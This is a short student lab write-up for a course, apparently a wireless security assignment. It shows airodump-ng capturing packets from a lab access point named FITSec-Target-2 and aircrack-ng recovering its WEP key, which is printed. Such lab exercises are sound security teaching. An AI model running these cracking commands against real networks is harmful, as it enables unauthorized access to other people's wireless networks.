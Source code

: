 # CSE 4820

### Grant Butler, Jerrel Gordon


<div class="pageBreak"></div>

#### Task 1:
##### a: Find AP with WEP

FITSec-Target-2 has WEP

Using this command to capture a cap file:

```bash
sudo airodump-ng -c 9 --bssid 00:0F:66:89:B5:ED -w wep-attack wlan0mon
```

We should have been able to crack it with this:
```bash
sudo aircrack-ng -b 00:0F:66:89:B5:ED wep-attack-01.cap
```


`KEY FOUND! [ DE:FE:4D:53:00 ]`
